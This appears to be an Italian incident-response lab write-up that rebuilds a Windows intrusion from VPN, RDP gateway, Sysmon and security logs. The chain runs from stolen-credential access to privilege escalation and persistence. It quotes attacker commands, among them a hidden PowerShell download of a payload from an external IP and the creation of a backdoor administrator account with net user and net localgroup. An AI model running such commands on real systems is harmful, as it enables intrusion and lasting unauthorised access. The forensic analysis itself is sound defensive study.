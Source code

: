 
# Logs
VPN Gateway, Remote Desktop Gateway (RDG) e Load Balancer (HAProxy) logs

![  ](../image/4a.png)

Windows Security Auditing, Sysmon, MsiInstaller, Windows Update logs

![  ](../image/4b.png)

#
L’indagine è iniziata con un ticket del SIEM alle 09:41:21. 

`2025-08-22 09:41:21 Microsoft-Windows-Security-Auditing: EventID=4672 SpecialPrivilegesAssignedToNewLogon SubjectUserName=LOCAL SERVICE LogonID=0x3C221 note="token duplication" `

L’evento era un 4672 Special Privileges Assigned, legato all’account LOCAL SERVICE. Si tratta di un tentativo di escalation di privilegi. Ho guardato qualche secondo prima e ho trovato che alle 09:41:19 il processo powershell.exe (PID 4471), eseguito con l’utente CORP\j.smith, aveva lanciato il comando `C:\ProgramData\u.tmp --elevate-token`. Questo collegava chiaramente il file sospetto u.tmp all’escalation.
Proseguendo a ritroso ho scoperto che alle 09:27:02 un altro processo, cmd.exe (PID 4112 con parent explorer.exe), aveva eseguito `C:\ProgramData\u.tmp –probe`. Sembrava un test preliminare del malware per capire l’ambiente. Ho poi verificato il contesto utente e ho visto che alle 09:26:39 c’era stato un accesso RDP riuscito per l’utente j.smith, proveniente dall’IP esterno `203.0.113.90`. Da lì ho capito quale fosse l’account compromesso e da dove fosse entrato l’attaccante.
Ho quindi ricostruito la catena...prima l’accesso VPN da quell’indirizzo IP, poi la sessione RDP, subito dopo il download di u.exe trasformato in u.tmp, e infine l’esecuzione del file che ha portato all’escalation e alla creazione di un nuovo utente amministratore.

# Accesso Iniziale
alle 08:11:09, nei log VPN un accesso con l’utente corp\j.smith dall’IP esterno `203.0.113.90`. La connessione viene accettata con protocollo IKEv2 e questo è il primo punto in cui l’attaccante riesce a entrare nella rete interna. Subito dopo, alle 08:11:12, sul server RDG01 viene registrato un evento CAP: significa che il controllo delle policy RDP per l’utente j.smith è stato autorizzato, quindi può proseguire verso il server target.
Alle 08:18:03, infatti, l’RDP viene autorizzato per collegarsi a WIN-APP01, lo stesso host che più tardi sarà coinvolto. E alle 08:18:11 arriva la conferma definitiva: l’evento 4624 sui log di sicurezza di WIN-APP01 segnala un logon remoto (LogonType=10) con utente j.smith e IP sorgente 203.0.113.90.
In questo modo si completa la catena di ingresso 

`VPN → CAP check → sessione RDP autorizzata → login remoto riuscito`

 È chiaro che l’attaccante ha usato credenziali valide di j.smith per aprirsi una porta verso l’ambiente interno e stabilire una sessione interattiva. Da qui in poi può muoversi liberamente sul server.



# Esecuzione e Consegna del Payload
Dopo il logon riuscito con l’utente j.smith, noto che alle 08:19:02 su WIN-APP01 parte un comando sospetto `powershell.exe` viene eseguito con opzioni nascoste (-nop -w hidden) e scarica un file da un server esterno all’indirizzo `http://203.0.113[.]90/tools/u.exe`. Il file non viene salvato come “u.exe”, ma viene scritto in `C:\ProgramData\u.tmp`, probabilmente per confondere i controlli o evitare di attirare subito l’attenzione.
Pochi secondi dopo, alle 08:19:06, i log di Sysmon confermano la creazione effettiva del file u.tmp con relativo hash. Questo mi fa capire che il payload è stato depositato con successo sul server.
Alle 08:19:13 vedo un altro passo fondamentale.. lo stesso utente esegue `icacls.exe` per modificare i permessi sul file, concedendo accesso in lettura ed esecuzione a “Everyone”. Questo è un segnale chiaro che l’attaccante vuole rendere il file facilmente utilizzabile, senza restrizioni, magari per lanciarlo con privilegi diversi o da altri contesti.
Con questa sequenza, la fase di delivery è completata: il payload malevolo (u.tmp) è stato scaricato, scritto su disco e reso pronto all’uso. Da qui inizieranno i tentativi di esecuzione ed escalation.

# Escalation dei Privilegi 
Dopo che il payload u.tmp è stato scaricato e reso eseguibile, l’attaccante inizia a testarlo. Alle 09:27:02, vedo che cmd.exe esegue il file con il parametro --probe. Questo sembra un test preliminare per verificare se l’impianto funziona nell’ambiente corrente. L’esecuzione non produce risultati utili (ExitStatus=1), ma indica chiaramente un tentativo di interazione con il malware.
Poco dopo, alle 09:27:15, lo stesso file u.tmp viene lanciato da powershell.exe con l’opzione runAs. Questo comando serve a forzare un prompt di elevazione dei privilegi. In pratica, l’attaccante sta cercando di eseguire il payload con diritti amministrativi, sfruttando l’utente loggato (j.smith).
alle 09:41:19 invece, quando powershell.exe esegue di nuovo il file u.tmp, questa volta con il parametro `--elevate-token`. Subito dopo, nei log appare l’evento 4672, che conferma l’assegnazione di privilegi speciali a un nuovo logon per l’account LOCAL SERVICE. Questo significa che è avvenuta una duplicazione di token... l’attaccante è riuscito a sfruttare il payload per ottenere un contesto privilegiato al di fuori del normale utente j.smith.


# Persistenza 
Dopo aver ottenuto i privilegi più alti grazie alla duplicazione di token, l’attaccante passa subito a consolidare l’accesso sul sistema. Alle 09:41:36, noto che il processo cmd.exe, eseguito in contesto SYSTEM e con parent process collegato a u.tmp, lancia il comando

`net user backupsvc Qwe!2025 /add`
Questo crea un nuovo utente locale chiamato backupsvc con una password già definita. Pochi secondi dopo, alle 09:41:39, i log di sicurezza confermano l’evento 4720, che indica ufficialmente la creazione dell’account.
Ma l’attaccante non si ferma qui. Alle 09:41:44, sempre tramite cmd.exe in esecuzione da u.tmp, viene eseguito un altro comando:
net localgroup administrators backupsvc /add.
L’obiettivo ...inserire l’account appena creato direttamente nel gruppo Administrators. Infatti, alle 09:41:46, i log confermano con l’evento 4732 che l’utente backupsvc è stato aggiunto al gruppo amministratori locali.
In questo modo, l’attaccante ottiene un accesso persistente e garantito al sistema, indipendente dall’utente originale compromesso (j.smith). Anche se la sessione VPN o RDP venisse chiusa, l’account backupsvc resterà attivo e con pieni privilegi amministrativi, pronto per essere usato in futuri accessi malevoli.


